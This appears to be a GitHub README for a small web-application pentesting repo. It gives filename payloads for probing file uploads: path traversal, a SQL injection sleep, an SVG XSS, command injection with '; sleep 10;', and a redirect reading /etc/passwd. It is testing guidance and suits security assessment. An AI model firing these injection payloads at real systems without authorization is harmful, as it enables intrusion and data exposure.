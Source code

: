 # webAppVulnScripts
Here is a repo of the collective vulnerability scripts used for web applications


## Parameters to include within burp
{fileName} = hello
{fileExtension} = jpg
{fileExtension} = png
{domain} = xxx.collaboraror.org


-- Try and include localhost 

-- ------------
-- General rule
-- ------------
Set filename to ../../../tmp/lol.png and try to achieve a path traversal
Set filename to sleep(10)-- -.jpg and you may be able to achieve a SQL injection
Set filename to <svg onload=alert(document.domain)> to achieve a XSS
Set filename to ; sleep 10; to test some command injection --> https://book.hacktricks.xyz/pentesting-web/command-injection


#Not executed but may be interesting
> /var/www/html/out.txt #Try to redirect the output to a file
< /etc/passwd #Try to send some input to the command

https://book.hacktricks.xyz/pentesting-web/file-upload#from-file-upload-to-other-vulnerabilities
https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt
